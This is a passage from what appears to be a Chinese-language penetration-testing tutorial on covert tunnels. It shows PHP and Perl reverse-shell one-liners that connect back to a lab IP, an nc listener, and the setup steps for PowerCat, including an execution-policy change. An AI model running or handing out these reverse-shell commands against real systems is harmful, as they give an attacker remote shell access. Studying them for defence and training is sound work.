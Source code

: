 客户端执行命令反弹shell给服务端：

```
php -r '$sock=fsockopen("192.168.2.12",6666);exec("/bin/sh -i <&3 >&3 2>&3");'
```

（13）perl反弹shell

服务端监听本地端口6666：
```
nc -lvp 6666
```
客户端执行命令反弹shell给服务端：

```
perl -e 'use Socket;$i="192.168.2.12";$p=6666;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

参考文章：https://www.anquanke.com/post/id/87017

##### 4.3：PowerCat
PowerCat可以说是nc的Powershell版本。

PowerCat可以通过执行命令回到本地运行，也可以使用远程权限运行。

下载地址：https://github.com/besimorhino/powercat.git

（1）PowerCat的下载

下载完成后，要想使用需要先导入模块：

```
Import-Module .\powercat.ps1
```

![](img/隐藏通信隧道基础知识/45.png)

报错是Powershell的权限问题，我们可以吧权限设置成RemotoSigned，然后再导入模块：

```
Set-ExecutionPolicy RemoteSigned
```

![](img/隐藏通信隧道基础知识/46.png)
